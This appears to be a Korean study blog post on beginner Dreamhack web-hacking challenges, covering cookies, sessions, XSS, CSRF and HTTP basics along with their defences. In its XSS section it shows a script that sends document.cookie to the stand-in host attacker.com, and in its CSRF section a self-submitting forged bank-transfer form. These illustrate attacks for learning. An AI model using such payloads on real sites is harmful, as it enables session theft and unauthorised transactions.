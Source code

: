 # 🌱 Dreamhack 새싹 문제 풀이 & 웹 해킹 로드맵 학습 정리

요즘 웹 해킹 공부를 본격적으로 시작하면서 Dreamhack이라는 플랫폼을 활용하고 있어요.  
실습 중심이라 직접 손으로 해보며 배우기 좋고, 강의도 체계적으로 잘 구성되어 있어서 혼자 공부하기에 정말 괜찮습니다.  
이 글에서는 지금까지 풀어본 문제들과 수강한 강의, 그리고 각 취약점에 대한 개념과 예시까지 정리해보려고 합니다.

---

## ✅ 1. 새싹 단계 문제 풀이 (총 13문제)

Dreamhack의 새싹 단계 문제들은 웹 해킹 입문자에게 최적화되어 있어요.  
웹 개발을 조금 해보신 분이라면 전부 풀이 가능하다고 생각합니다.  

제가 풀었던 문제는 아래와 같습니다:

- https://dreamhack.io/wargame/challenges/267  
- https://dreamhack.io/wargame/challenges/850  
- https://dreamhack.io/wargame/challenges/830  
- https://dreamhack.io/wargame/challenges/96  
- https://dreamhack.io/wargame/challenges/266  
- https://dreamhack.io/wargame/challenges/6  
- https://dreamhack.io/wargame/challenges/45  
- https://dreamhack.io/wargame/challenges/12  
- https://dreamhack.io/wargame/challenges/37  
- https://dreamhack.io/wargame/challenges/1  
- https://dreamhack.io/wargame/challenges/1113  
- https://dreamhack.io/wargame/challenges/834  
- https://dreamhack.io/wargame/challenges/873

문제를 풀다 보면 단순히 정답을 맞추는 것이 아니라,  
공격 흐름과 시스템의 취약한 구조까지 생각해보게 되면서 사고방식 자체가 달라지는 걸 느낄 수 있어요.

---

## 📚 2. Dreamhack 웹 해킹 로드맵 수강

문제 풀이만으로는 부족하다고 느껴서 Dreamhack의 공식 로드맵 강의도 함께 수강했습니다.  
강의는 실습 중심이고 개념도 쉽게 설명해줘서 복습용으로도 좋았어요.

### ✅ 수강 완료
- [웹 해킹 로드맵](https://dreamhack.io/lecture/roadmaps/1)

### 📌 수강 예정
- [웹 취약점 심화 로드맵](https://dreamhack.io/lecture/roadmaps/13)  
- [보안 개발자를 위한 웹 취약점 로드맵](https://dreamhack.io/lecture/roadmaps/15)

---

## 🔐 쿠키 & 세션

### ✅ 쿠키(Cookie)란?

쿠키는 브라우저에 저장되는 작은 데이터로, 서버가 응답 시 아래처럼 설정해줍니다.

```http
Set-Cookie: session_id=abc123; HttpOnly; Secure
```

이후 클라이언트는 요청할 때마다 자동으로 전송해요:

```http
Cookie: session_id=abc123
```

- HttpOnly: 자바스크립트로 쿠키 접근을 막아줍니다. (`document.cookie` 방어)
- Secure: HTTPS 환경에서만 쿠키가 전송되게 제한합니다.

### ✅ 세션(Session)이란?

서버에 저장되는 사용자 상태 정보입니다.  
클라이언트는 세션 ID만 들고 있고, 실제 데이터는 서버에 저장돼요.

```python
# Flask 예시
session['user_id'] = 1234
```

서버는 세션 ID를 쿠키로 전달하고, 사용자가 요청을 보낼 때마다 ID를 이용해 해당 세션 정보를 불러옵니다.

---

## 🧨 XSS (Cross Site Scripting)

### ✅ XSS란?

사용자의 입력을 필터링하지 않고 페이지에 그대로 출력할 경우, 악성 스크립트가 실행되는 취약점입니다.

### ✅ 예시: document.cookie 탈취

```html
<script>
  fetch("http://attacker.com/steal?cookie=" + document.cookie);
</script>
```

HttpOnly가 설정되어 있지 않다면 쿠키를 탈취할 수 있어요.

### ✅ Reflective XSS 흐름

```html
<!-- URL: ?q=<script>alert('xss')</script> -->
<p>검색어: <script>alert('xss')</script></p>
```

### ✅ 방어 방법

- HTML 이스케이프 처리 (`<`, `>`, `"`)
- Content-Security-Policy 헤더 설정
- HttpOnly, Secure 옵션 설정
- 입력값 검증 및 출력 위치에 따른 컨텍스트 고려

---

## 🎯 CSRF (Cross Site Request Forgery)

### ✅ CSRF란?

로그인 상태의 사용자가 의도치 않은 요청을 하게 만드는 공격입니다.

### ✅ 예시

```html
<form action="https://bank.com/transfer" method="POST">
  <input type="hidden" name="to" value="attacker">
  <input type="hidden" name="amount" value="10000">
</form>

<script>document.forms[0].submit();</script>
```

브라우저는 세션 쿠키를 자동으로 보내기 때문에 실제 사용자 권한으로 요청이 처리됩니다.

### ✅ 방어 방법

- CSRF 토큰 사용 (`<input type="hidden" name="csrf_token" value="...">`)
- Referer / Origin 헤더 검증
- 쿠키에 SameSite=Lax 또는 SameSite=Strict 옵션 설정

---

## 🌐 웹 기초 지식 요약

### ✅ 요청 / 응답 구조

```http
GET /index.html HTTP/1.1
Host: example.com
```

응답:

```http
HTTP/1.1 200 OK
Content-Type: text/html

<html>...</html>
```

BurpSuite 같은 도구를 사용하면 이 흐름을 실시간으로 가로채고 수정해볼 수 있어요.

이 구조를 이해하면 XSS나 CSRF 같은 취약점도 흐름상으로 이해하기 훨씬 쉬워집니다.

---

## 🛠️ SQLi 학습 준비

SQL Injection 학습을 위한 준비로 SQL 문법을 복습하고 있어요.  
기초적인 CRUD 명령들을 다시 정리하면서, 실제 쿼리가 어떻게 작동하는지 감을 익히는 중입니다.

### ✅ 복습한 내용

- CREATE, DROP  
- INSERT, SELECT, UPDATE, DELETE  

조만간 Dreamhack의 SQLi 강의 및 실습 문제도 풀면서 그 내용을 따로 정리해볼 예정이에요.

---

## ✍️ 마무리

이번 글에서는 Dreamhack 새싹 단계 문제 풀이와  
웹 해킹 로드맵 강의 수강, 그리고 주요 취약점 개념(Cookie/Session, XSS, CSRF 등)에 대해 실습 중심으로 정리해봤습니다.

혼자 공부하시는 분들께는 Dreamhack 플랫폼 정말 추천드리고 싶어요.  
실습 → 개념 → 적용까지 흐름이 잘 잡혀 있어서 보안 쪽을 입문할 때 접근하기 수월했습니다.

다음에는 SQLi, Command Injection, LFI, SSRF 같은 취약점도 하나씩 실습하고 정리해보겠습니다.  
읽어주셔서 감사합니다!
